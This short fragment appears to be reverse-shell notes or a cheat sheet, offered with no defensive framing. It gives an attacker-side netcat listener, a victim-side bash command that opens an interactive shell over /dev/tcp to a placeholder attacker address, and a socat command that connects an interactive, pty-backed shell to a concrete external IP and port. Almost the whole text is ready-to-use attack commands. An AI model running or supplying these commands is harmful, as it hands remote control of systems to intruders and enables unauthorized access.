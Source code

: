 **Attaсker:**
nc -lvnp 4444

**Victim:**
_bash -c 'exec bash -i &>/dev/tcp/{{attacker-ip}}/{{attacker-port}} <&1'

4011-4015

/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:45.8.144.248:4011


